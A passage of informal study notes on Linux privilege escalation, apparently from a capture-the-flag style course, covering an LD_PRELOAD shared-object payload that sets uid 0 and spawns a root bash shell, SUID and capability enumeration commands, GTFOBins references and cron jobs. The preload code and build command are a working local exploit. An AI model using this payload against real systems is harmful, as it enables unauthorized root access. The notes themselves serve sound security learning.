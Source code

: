 		void _init() {
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/bash");
		}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

--------

3. SUID : 

Much of Linux privilege controls rely on controlling the users and files interactions.

This is done with permissions. By now, you know that files can have read, write, and execute permissions. 

These are given to users within their privilege levels. 

This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

find / -type f -perm -04000 -ls 2>/dev/null // use this to dind such files with suid or sgid permissions
	
A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io

setting up of file as a variable in terminal and then reading that terminal or directly read flag from it 

------

4. Capabilities : 

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level.

As a result, the binary would get through its task without needing a higher privilege user.

The capabilities man page provides detailed information on its usage and options.

use: 

getcap -r / 2>/dev/null

to list enables capabilities 

then use gtfobins to use these capabilities to esclate privileges 

------

5. Cron Jobs 

Cron jobs are used to run scripts or binaries at specific times. 

By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
